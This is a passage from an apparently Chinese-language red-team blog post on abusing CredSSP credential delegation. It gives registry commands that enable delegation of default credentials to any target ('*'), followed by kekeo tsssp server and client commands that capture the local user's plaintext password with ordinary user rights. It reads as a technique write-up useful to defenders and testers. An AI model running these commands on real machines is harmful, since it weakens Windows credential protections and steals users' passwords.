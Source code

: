 **注：**

keko的实现方式是通过SMB协议创建命名管道，而不是RDP协议

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2020-8-6/2-2.PNG)

## 0x03 实现方法
---

通过修改注册表的方式添加组策略，命令如下：

```
reg add hklm\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefaultCredentials /t REG_DWORD /d 1
reg add hklm\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefCredentialsWhenNTLMOnly /t REG_DWORD /d 1
reg add hklm\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefault /t REG_DWORD /d 1
reg add hklm\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefNTLMOnly /t REG_DWORD /d 1
reg add hklm\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefaultCredentials /v 1 /t REG_SZ /d *
reg add hklm\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefCredentialsWhenNTLMOnly /v 1 /t REG_SZ /d *
```

添加组策略后，需要等待用户重新登录并输入凭据后才能生效，例如锁屏、注销或重启等

对于不同的网络环境，实现方法存在差异

### 1.工作组网络

身份验证方式为NTLM

#### (1)抓取本机口令

建立服务器的kekeo命令如下(普通用户权限)：

```
tsssp::server
```

连接服务器的kekeo命令如下(普通用户权限)：

```
tsssp::client /target:anyword
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2020-8-6/3-1.PNG)

**注：**

抓取本机口令时，`target`参数可以设置为任意字符
